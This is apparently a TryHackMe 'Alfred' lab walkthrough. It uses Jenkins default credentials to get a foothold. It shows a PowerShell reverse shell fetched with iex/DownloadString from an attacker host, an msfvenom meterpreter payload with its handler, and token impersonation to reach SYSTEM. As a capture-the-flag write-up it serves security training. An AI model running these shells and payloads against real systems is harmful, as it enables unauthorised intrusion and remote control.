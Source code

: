 # Alfred

**Room Link:** [https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)

### Initial Access

wget [https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)&#x20;

Edit the file and add the following to the end of the file. This is just to make it a bit easier when we use it later.

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.135.134 -Port 4444
```

**How many ports are open? (TCP only)**

```
nmap -A 10.10.98.134
```

**What is the username and password for the log in panel(in the format username:password)**

admin:admin



**Getting shell**

**Kali**

```
rlwrap nc -lvnp 4444
```

**Jenkins**

<figure><img src="../../.gitbook/assets/image (3) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Under Build add a build step and select 'Execute Windows batch command' then  add the following in the command field

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.135.134:81/Invoke-PowerShellTcp.ps1'); 
Invoke-PowerShellTcp
```

<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

&#x20;

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Switching Shells

**Kali**&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.135.134 LPORT=1337 -f exe -o shell.exe
python2 -m SimpleHTTPServer 81
```

**Kali**&#x20;

```
msfconsole
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.10.135.134 
set LPORT 1337 
run
```

**Victim**&#x20;

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.8.234:81/shells.exe','shells.exe')"
Start-Process "shell.exe"
```

<figure><img src="../../.gitbook/assets/image (11) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation**

**Victim (Metasploit)**&#x20;

```
load incognito 
list_tokens -g
```

![](<../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1).png>)

```
impersonate_token "BUILTIN\Administrators" 
getuid
```

We are now NT Authority&#x20;

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Migrating processes to make sure we have correct permissions for the privileged user. The safest process to pick is the services.exe process

```
ps
migrate 668
```

<figure><img src="../../.gitbook/assets/image (2) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>
